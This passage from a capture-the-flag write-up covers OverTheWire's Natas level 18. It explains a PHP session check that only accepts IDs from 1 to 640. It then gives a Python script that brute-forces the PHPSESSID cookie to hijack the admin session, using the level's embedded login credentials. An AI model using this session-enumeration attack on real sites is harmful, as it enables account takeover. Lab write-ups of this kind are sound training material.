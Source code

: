 ```php
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }
 
    return false;
}
```

Basically, three conditions are required. The `PHPSESSID` must be numerical, and valid (in the range of `1-640`). And here's a catch - there must be a `admin` key stored in the `$_SESSION` array (if there is not any, then the value of the `admin` key is set to `0`). Again, remember that the `session_start()` resumes the session, if the `PHPSESSID` is previously generated. Hence, we can make the assumption that there also exists a `PHPSESSID` for the `admin` as well (this really throws me off, as the code for explicitly assigning the `admin` key for the session of the `admin` is not explicitly written, perhaps it is somewhat hinted in the commented out part of `isValidAdminLogin()` - it could return `1` in the past).

Nonetheless, with these figured out, and the fact that the number of possible sessions IDs are `640` (defined in `$maxid`), we can do a brute-force search to find the session ID belonging to the `admin`, which should have the `admin` key of `1` in the `$_SESSION`. 

The code for all of the aforementioned operations: 

```python
import requests

target = 'http://natas18.natas.labs.overthewire.org'
auth = ('natas18','8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq')
params = dict(username='IceWizard4902', password='ISuck@CTF') # not needed
cookies = dict()

for i in range(1, 641):
    print("Trying with PHPID: ", i)
    cookies = dict(PHPSESSID=str(i))
    r = requests.get(target, auth = auth, cookies = cookies)
    if "You are an admin" in r.text:
        print(r.text)
        break 


```
